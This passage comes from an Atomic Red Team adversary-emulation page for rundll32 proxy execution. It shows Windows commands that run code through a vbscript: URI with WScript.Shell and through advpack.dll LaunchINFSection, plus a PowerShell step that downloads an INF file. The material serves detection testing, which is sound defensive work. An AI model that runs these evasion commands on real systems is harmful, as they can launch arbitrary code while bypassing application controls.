 **Supported Platforms:** Windows


**auto_generated_guid:** 32d1cf1b-cbc2-4c09-8d05-07ec5c83a821





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32 vbscript:"\..\mshtml,#135 "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```






<br/>
<br/>

## Atomic Test #4 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched

**Supported Platforms:** Windows


**auto_generated_guid:** d91cae26-7fc1-457b-a854-34c8aad48c89





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe advpack.dll,LaunchINFSection "#{inf_to_execute}",DefaultInstall_SingleUser,1,
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location ("#{inf_to_execute}")
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011.inf" -OutFile "#{inf_to_execute}"
```

